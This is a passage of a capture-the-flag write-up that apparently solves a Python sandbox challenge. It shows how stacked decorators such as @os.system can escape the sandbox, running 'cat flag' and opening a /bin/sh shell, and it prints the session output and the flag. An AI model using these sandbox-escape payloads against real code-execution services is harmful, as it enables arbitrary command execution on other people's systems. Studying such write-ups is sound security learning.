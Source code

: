 </td>
</tr>
</table>

So, a decorator underneath actually performs a function call! Let's abuse this behavior:

```python
def cmd(_):
    return 'cat flag'

@os.system
@cmd
def exploit():
    pass
--END
```

The above snipper is equivalent to:

```python
exploit = os.system(cmd(exploit))
```

and when we submit it to the server, we get the flag in the response:

```log
-- Executing safe code:
CTF{CzeresniaTopolaForsycja}
```

### Solution 4 - Fancy

We can even get super fancy with our exploit and also pop a shell:

```python
@os.system
@(lambda _: '/bin/sh')
class _: pass
--END
```

```log
-- Executing safe code:
ls
flag
treebox.py
id
uid=1000(user) gid=1000(user) groups=1000(user)
cat flag
CTF{CzeresniaTopolaForsycja}
```

and the flag is `CTF{CzeresniaTopolaForsycja}`
